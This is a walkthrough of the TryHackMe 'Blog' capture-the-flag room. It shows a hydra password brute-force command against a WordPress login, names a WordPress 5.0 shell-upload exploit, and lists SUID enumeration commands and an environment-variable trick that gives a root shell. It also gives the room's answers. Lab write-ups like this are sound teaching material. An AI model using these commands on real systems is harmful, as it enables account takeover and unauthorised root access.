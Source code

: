 ```yaml
---
description: Walkthrough (Medium)
---
```


# Blog 🟠🟠

Billy Joel made a blog on his home computer and has started working on it.  It's going to be so awesome!

Enumerate this box and find the 2 flags that are hiding on it!  Billy has some weird things going on his laptop.  Can you maneuver around and get what you need?  Or will you fall down the rabbit hole...

In order to get the blog to work with AWS, you'll need to add MACHINE\_IP blog.thm to your /etc/hosts file.

[https://tryhackme.com/r/room/blog](https://tryhackme.com/r/room/blog)

<figure><img src="../.gitbook/assets/image (20).png" alt=""><figcaption></figcaption></figure>

### Q ) What CMS was Billy using?

\-> wordpress

<figure><img src="../.gitbook/assets/image (21).png" alt=""><figcaption></figcaption></figure>

### Q ) What version of the above CMS was being used?

\-> 5.0

<figure><img src="../.gitbook/assets/image (22).png" alt=""><figcaption></figcaption></figure>

* After surfing the webpages got a user Karen Wheelar nickname : kwheel
* Found login page /wp-login.php ( lets hydra it)

{% code overflow="wrap" %}
```bash
hydra -l kwheel -P /usr/share/wordlists/rockyou.txt 10.10.11.47 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Fblog.thm%2Fwp-admin%2F&testcookie=1:F=The password you entered for the username" -V
```
{% endcode %}

* login: kwheel password: \*\*\*\*\*\*\*\*
* After google searching **wordpress 5.0 exploit** got **WordPress Crop-image Shell Upload**

<figure><img src="../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

* got user bjoel and there was a file user.txt but its a rabbit hole
* No flag files were found in the begining so just  **find root acces files with SUID**

```bash
find / -user root -perm /4000 2>/dev/null

               OR
               
find / -perm -u=s -type f 2>/dev/null 
```

* &#x20;**find root acces files with SUID**

<figure><img src="../.gitbook/assets/image (25).png" alt=""><figcaption></figcaption></figure>

* Found a intrsting file Checker&#x20;

```bash
ltrace /usr/sbin/checker
```

<figure><img src="../.gitbook/assets/image (26).png" alt=""><figcaption></figcaption></figure>

* If we run it prints  " Not an Admin "
* If we see the code carefully, its checking environment variable admin true or false
* If it is false prints not admin, if set true then shell will be given

```bash
export admin=1
/usr/sbin/checker
```

* Now we are root, perform any task

### Q ) root.txt&#x20;

```basic
cat /root/root.txt
```

### Q ) user.txt

```bash
find / 2>/dev/null | grep user.txt
```

<figure><img src="../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

### Q ) Where was user.txt found?

\-> /media/usb
